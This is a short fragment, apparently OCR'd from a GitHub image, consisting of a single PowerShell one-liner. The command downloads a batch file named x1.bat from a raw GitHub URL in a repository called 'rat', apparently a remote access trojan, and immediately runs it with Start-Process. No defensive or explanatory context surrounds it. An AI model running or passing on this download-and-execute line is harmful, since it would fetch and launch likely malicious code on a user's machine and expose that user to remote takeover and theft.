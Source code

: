 powershell -Command "& { (New-Object Net.WebClient).DownloadFile('https://raw.githubuserconte
nt.com/murmurlab/rat/main/x1.bat', 'x1.bat'); Start-Process -FilePath 'x1.bat' }"